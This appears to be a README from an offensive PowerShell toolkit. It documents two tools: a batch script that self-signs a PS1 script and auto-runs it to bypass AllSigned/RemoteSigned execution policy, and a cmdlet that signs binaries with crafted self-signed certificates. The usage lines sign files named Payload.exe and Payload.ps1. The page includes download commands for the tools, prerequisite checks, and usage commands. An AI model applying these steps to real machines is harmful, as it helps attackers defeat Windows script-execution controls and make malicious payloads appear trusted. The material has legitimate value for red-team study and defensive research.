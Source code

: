 ## PSscriptSigning.bat

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|PSscriptSigning|Signs one PS1 script ( **certlm.msc - certificate** ) + Auto-Execute it ?<br />This allow us to execute our PS1 cmdlet even if set-executionpolicy<br />its set to only run signed cmdlets [( AllSigned, RemoteSigned )](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-executionpolicy?view=powershell-7.2)|Administrator|[PSscriptSigning.bat](https://github.com/r00t-3xp10it/redpill/blob/main/bypass/PSscriptSigning.bat)<br />[DeletePSscriptSignning.bat](https://github.com/r00t-3xp10it/redpill/blob/main/bypass/DeletePSscriptSignning.bat)<br />Dependencies: LanManServer|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bypass/PSscriptSigning.bat" -OutFile "PSscriptSigning.bat"
```

<br />

**prerequesites checks:**
```powershell
#Make sure LanManServer its running
[bool](Get-Service -Name LanManServer)

#Make sure the correct (AllSigned|RemoteSigned) execution policys are set
[bool]((Get-ExecutionPolicy -Scope CurrentUser) -iMatch "^(AllSigned|RemoteSigned)$")

#Make sure we have administrator privileges in shell
[bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")
```

```powershell
#Execute the next cmdline to: auto-execute the PS1 after PSscriptSigning.bat have sign it ?
[optional] Add-Content -Path "PSscriptSigning.bat" -Value "`npowershell -W 1 -File %PSsignPath%" -Force

#Execute the batch script that signs our PS1 cmdlet
.\PSscriptSigning.bat
```


**check if (Subject: My_Code_Signing_Certificate) certificate exists:**
```powershell
[manual] Certlm.msc
[auto] $List = @("Root","My");ForEach($Item in $List){Get-ChildItem Cert:\LocalMachine\$Item|Where-Object {$_.Issuer -match 'My_Code_Signing_Certificate'}}
```

<br /><br />

**Delete certificate from store**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bypass/DeletePSscriptSignning.bat" -OutFile "DeletePSscriptSignning.bat"
```

```powershell
.\DeletePSscriptSignning.bat
```

**check if (Subject: My_Code_Signing_Certificate) certificate was deleted:**
```powershell
[manual] Certlm.msc
[auto] Get-ChildItem Cert:\LocalMachine\Root | Where-Object {$_.Issuer -match 'My_Code_Signing_Certificate'}
```

<br />

### Final Notes
```
This BATCH script can sign\execute our cmdlet even if Set-ExecutionPolicy its set to 'AllSigned, RemoteSigned'.
Because executing BATCH scripts its NOT affected by 'Set-ExecutionPolicy' target settings, this allow us to
Sign the cmdlet and then auto-execute it bypassing 'Set-ExecutionPolicy AllSigned,RemoteSigned' restrictions.

The PSscriptSigning.bat script can only be used to sign ONE cmdlet at a time, because it uses
the same Subject Name everytime it signs one cmdlet ( Subject: My_Code_Signing_Certificate )

```

Article: https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/working-with-certificates.md

<br /><br />

## Invoke-LazySign.ps1

|Function Name|Description|Privileges|Notes|
|---|---|---|---|
|[Invoke-LazySign](https://github.com/r00t-3xp10it/redpill/blob/main/lib/CertSign_PS1/Invoke-LazySign.ps1)|Sign a Windows binary\Cmdlet with a self-signed certificate|Administrator|[Screenshot1](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/CertSign_PS1/Invoke-LazySign.png)<br />[Screenshot2](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/CertSign_PS1/SuperWork.png)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/CertSign_PS1/Invoke-LazySign.ps1" -OutFile "Invoke-LazySign.ps1"
```

<br />

**prerequesites checks:**
```powershell
#Make sure we have administrator privileges in shell
[bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")

#Make sure all the required modules are present\loaded
[bool]((Get-Module -ListAvailable -Name "PKI").ExportedCmdlets|findstr /C:"New-SelfSignedCertificate")
[bool]((Get-Module -ListAvailable -Name "Microsoft.PowerShell.Security").ExportedCommands|findstr /C:"Set-AuthenticodeSignature")
```


```powershell
Get-Help .\Invoke-LazySign.ps1 -full

#Query for ALL certificates in 'Cert:\LocalMachine\My | Cert:\LocalMachine\Root' Store
.\Invoke-LazySign.ps1 -Action "query" -Subject "[a-z 0-9]"

#Query for ALL 'LazySign' certs in 'Cert:\LocalMachine\My | Cert:\LocalMachine\Root' Store
.\Invoke-LazySign.ps1 -Action "query" -Subject "LazySign"

#Sign binary (Payload.exe) with crafted certificate (Subject: LazySign-4zrH Expires: 6 months)
.\Invoke-LazySign.ps1 -Action 'Sign' -Subject "LazySign" -Target "$pwd\Payload.exe" -NotAfter "6"

#Sign binary (Payload.ps1) with crafted certificate (Subject: LazySign-4zrH Expires: 3 months)
.\Invoke-LazySign.ps1 -Action 'sign' -Subject "LazySign" -Target "Payload.ps1" -NotAfter "3"

#Delete the 'LazySign-4zrH' certificate from windows store
.\Invoke-LazySign.ps1 -Action 'del' -Subject "LazySign-4zrH"
```

<br />

## Final Notes
```
Do 'NOT' edit the signed binary\cmdlet after its being signed, or else the certificate code block
inside signed binary\cmdlet will brake, rending the signed binary\cmdlet as 'NOT-SIGNED' again.

Do 'NOT' use Regex when invoking -Action 'del' to delete certificates from the Windows Store.
Because Invoke-LazySign.ps1 cmdlet uses recursive search by default (deleting multiple certs)
This function as a precaution it asks for comfirmation before deleting the certificate(s).

This cmdlet will 'NOT' sign our script.ps1 if 'Set-ExecutionPolicy AllSigned,RemoteSigned' are set.
Because ExecutionPolicy will prevent this cmdlet from running. If you wish to bypass this restrictions
then execute the 'PSscriptSigning.bat' batch module contained in this same repository (the first module)
```

Article: https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/working-with-certificates.md
